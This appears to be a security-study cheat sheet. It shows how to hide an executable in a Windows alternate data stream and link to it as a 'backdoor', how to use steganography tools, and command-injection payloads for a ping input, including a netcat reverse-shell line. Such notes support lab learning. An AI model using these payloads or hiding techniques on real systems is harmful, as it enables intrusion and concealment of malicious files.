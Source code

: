 # Hide Files using Alternate Data Streams (on windows)
```
Copy calc from system32 folder to your test folder, Now create a text file and append the cal.exe to the file 
>type calc.exe >readme.txt:calc.exe
Now create a link to the ADS file to create backdoor 
>mklink backdoor.exe readme.txt:calc.exe
Whitespace Steganography
Download from darkside.com.au/snow/
>SNOW.EXE -C -m "Hassan is my name" -p "magic" test.txt test2.txt  
-m is the message you want to hide  
-p is the password  
test.txt is the original file  
test2.txt is the target file
To reveal the message:
>SNOW.EXE -C -p "magic" test2.txt
```

# Image Steganography
Open Stego (download)
https://georgeom.net/StegOnline/upload (online)

# Command Injection - Linux
If a website allow you to execute a command then possibly able to command inject
View the source to check for sanitisation

For example if an application allows you to ping an address:
```
Easy/Medium (only some will work)
>127.0.0.1 && ls 
>127.0.0.1 & ls 
>127.0.0.1 ; ls 
>127.0.0.1 | ls 
>127.0.0.1 && nc ‐c sh 127.0.0.1 9001 (after starting listener using >nc -lnvp 9001)

Hard (use typos)
>127.0.0.1 |ls
```

# Command Injection - Windows
As above but with different commands
```
>127.0.0.1 && dir 
>127.0.0.1 & dir 
>127.0.0.1 ; dir 
>127.0.0.1 | dir 
```
